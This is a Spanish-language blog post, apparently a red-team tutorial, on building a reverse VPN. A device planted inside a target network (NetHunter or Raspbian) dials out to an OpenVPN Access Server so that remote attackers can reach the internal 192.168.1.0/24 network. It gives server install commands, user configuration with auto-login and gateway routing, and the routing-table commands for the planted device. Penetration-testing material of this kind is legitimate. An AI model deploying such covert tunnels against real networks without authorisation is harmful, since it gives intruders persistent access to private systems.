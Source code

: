 ```yaml
---
layout: post
title: Reverse VPN
---
```


Add attackers with reverse VPN (openvpn)

Basado en la publicacion: [https://github.com/offensive-security/kali-nethunter/issues/421](https://github.com/offensive-security/kali-nethunter/issues/421){:target="_blank"}

# Como funciona
```
Awesome Expert Diagram

 ------------      Port 443       ------------        ------------
|    Doom    |<----------------> |  OpenVPN   |<-----| Additional |      
|            |                   |            |      |            |
|   Target   |                   |   Server   |      |  Attacker  |
 ------------                     ------------        ------------
192.168.1.0/24                  https://vpnserver       Anywhere  
 (doom.ovpn)                                         (artemis.ovpn)
```

Crea una conexion VPN reversa desde Doom hacia OpenVPN y de esta forma agregar atacantes a una red interna cuando solo se tiene un dispositivo fisico. El dispositivo Doom puede ser tanto Raspbian como NetHunter, tambien deberia funcionar en un OpenWRT pero aun no lo he probado. Para el ejemplo se supondra de que la red interna donde esta Doom es `192.168.1.0/24`


# Setup OpenVPN

### Instalacion
Para saber las versiones de OpenVPN disponibles puedes visitar: [https://openvpn.net/index.php/access-server/download-openvpn-as-sw.html](https://openvpn.net/index.php/access-server/download-openvpn-as-sw.html){:target="_blank"}

En mi caso ocupo un Ubuntu 14 de 64 bits

```
wget https://swupdate.openvpn.org/as/openvpn-as-2.1.2-Ubuntu14.amd_64.deb
sudo dpkg -i openvpn-as-2.1.2-Ubuntu14.amd_64.deb
passwd openvpn
[coloca una contraseña]
sudo su
cd /usr/local/openvpn_as/bin && ./ovpn-init
```

### Configuracion
```
Please enter 'DELETE' to delete existing configuration: DELETE

Please enter 'yes' to indicate your agreement [no]: yes

Will this be the primary Access Server node?
(enter 'no' to configure as a backup or standby node)
> Press ENTER for default [yes]: yes

Please enter the option number from the list above (1-2).
> Press Enter for default [2]: 1

Please specify the port number for the Admin Web UI.
> Press ENTER for default [943]: 

Please specify the TCP port number for the OpenVPN Daemon
> Press ENTER for default [443]: 

Should client traffic be routed by default through the VPN?
> Press ENTER for default [yes]: 

Should client DNS traffic be routed by default through the VPN?
> Press ENTER for default [yes]: 

Use local authentication via internal DB?
> Press ENTER for default [no]: yes

Should private subnets be accessible to clients by default?
> Press ENTER for default [yes]: 

Do you wish to login to the Admin UI as "openvpn"?
> Press ENTER for default [yes]: 

> Please specify your OpenVPN-AS license key (or leave blank to specify later): 
```

### Agregando usuarios
```
Visitar la webadmin: https://[vpnurl]:943/admin

Login: openvpn
Password: [la contraseña creada anteriormente]

User Management
    User Permissions
        New Username: artemis
        Allow Auto-login
        "click show"
        Local Password: [set password]
        Save Settings
        Update Running Server

        New Username: doom
        "click show"
        Local Password: [set password]
        Allow Auto-login
        Allow Access From: all server-side private subnet
        Allow Access From: all other VPN clients
        VPN Gateway
            Yes
                192.168.1.0/24
        Save Settings
        Update Running Server
```

### Descargando el cliente
```
Visitar: https://[vpnurl]

Loguearse con Username/password en cada cuenta correspondiente

Descargar client.ovpn con autologin profiles.

Puedes renombrarlos para recordarlos mas facil:
doom_client.ovpn  < -- esto es para el dispositivo Doom
artemis_client.ovpn  <--  esto es para otros atacantes
```

### Configurando al dispositivo Doom
En este ejemplo ocupé un NetHunter como Doom

```
# Realizar solo una vez
mkdir -p /data/local/tmp

# Configurar Gateway
ip route replace default via 192.168.1.1 dev wlan0

# ejecutar la configuracion del archivo ovpn
openvpn --config doom.ovpn

# Abrir una nueva terminal y configurar las routing tables
ip rule add from 192.168.1.0/24 lookup 61
ip route add default dev tun0 scope link table 61
ip route add 192.168.1.0/24 dev wlan0 scope link table 61
ip route add broadcast 255.255.255.255 dev wlan0 scope link table 61
```

### Configurando al atacante (cliente)
Solo tienes que ejecutar el cliente `artemis_client.ovpn` usando openvpn para poder tener acceso a la red interna 
que anteriormente configuramos `192.168.1.0/24`
